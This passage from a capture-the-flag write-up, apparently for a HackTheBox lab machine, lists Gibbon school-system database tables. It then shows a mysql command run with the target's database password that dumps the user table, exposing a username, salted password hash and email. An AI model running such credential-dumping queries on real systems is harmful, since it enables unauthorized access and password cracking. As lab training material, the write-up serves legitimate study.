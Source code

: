 ```
gibbonstaff
gibbonstaffabsence
gibbonstaffabsencedate
gibbonstaffabsencetype
gibbonstaffapplicationform
gibbonstaffapplicationformfile
gibbonstaffcontract
gibbonstaffcoverage
gibbonstaffcoveragedate
gibbonstaffduty
gibbonstaffdutyperson
gibbonstaffjobopening
gibbonstaffupdate
gibbonstring
gibbonstudentenrolment
gibbonstudentnote
gibbonstudentnotecategory
gibbonsubstitute
gibbontheme
gibbontt
gibbonttcolumn
gibbonttcolumnrow
gibbonttday
gibbonttdaydate
gibbonttdayrowclass
gibbonttdayrowclassexception
gibbonttimport
gibbonttspacebooking
gibbonttspacechange
gibbonunit
gibbonunitblock
gibbonunitclass
gibbonunitclassblock
gibbonunitoutcome
gibbonusernameformat
gibbonyeargroup
```

A bunch of tables on this db apparently, if we take a look, we can find the `gibbonperson` table, maybe on here we can find users:

```
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E

*************************** 1. row ***************************
           gibbonPersonID: 0000000001
                    title: Ms.
                  surname: Frizzle
                firstName: Fiona
            preferredName: Fiona
             officialName: Fiona Frizzle
         nameInCharacters:
                   gender: Unspecified
                 username: f.frizzle
           passwordStrong: 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
       passwordStrongSalt: /aACFhikmNopqrRTVz2489
       passwordForceReset: N
                   status: Full
                 canLogin: Y
      gibbonRoleIDPrimary: 001
          gibbonRoleIDAll: 001
                      dob: NULL
                    email: f.frizzle@frizz.htb
```